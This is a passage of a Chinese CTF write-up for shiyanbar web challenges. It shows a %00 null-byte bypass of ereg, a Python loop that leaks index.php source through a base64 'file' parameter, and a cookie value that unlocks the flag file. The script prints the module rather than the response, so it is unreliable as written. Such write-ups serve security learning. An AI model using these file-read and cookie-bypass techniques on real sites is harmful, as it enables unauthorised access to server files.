 利用`%00`可以截断`ereg`，构造`?password=1%00—`  
`flag{Maybe_using_rexpexp_wasnt_a_clever_move}`

## 曲奇
```
http://ctf1.shiyanbar.com/shian-quqi/index.php?line=&file=a2V5LnR4dA==
```
file参数后面是`base64编码`的`key.txt`，line是行数
编写py脚本读取`index.php`源码
```python
#!/usr/bin/env
# -*- coding: utf-8 -*-
# by:xishir
import requests as r

r1=r.session()
url='http://ctf1.shiyanbar.com/shian-quqi/index.php?line={0}&file=aW5kZXgucGhw'
for i in range(50):
	r2=r1.get(url.format(str(i)))
	print r
```
读取到的index.php如下
```php
<?php
error_reporting(0);
$file=base64_decode(isset($_GET['file'])?$_GET['file']:"");
$line=isset($_GET['line'])?intval($_GET['line']):0;

if($file=='') header("location:index.php?line=&file=a2V5LnR4dA==");

$file_list = array(
'0' =>'key.txt',
'1' =>'index.php',
);

if(isset($_COOKIE['key']) && $_COOKIE['key']=='li_lr_480'){
$file_list[2]='thisis_flag.php';
}

if(in_array($file, $file_list)){
$fa = file($file);
echo $fa[$line];
}
?>
```
可以看到当cookie中的`key`值为`li_lr_480`，即可读取`thisis_flag.php`文件
![](/img/2017-sab-web2.png)
`flag{UHGgd3rfH*(3HFhuiEIWF}`
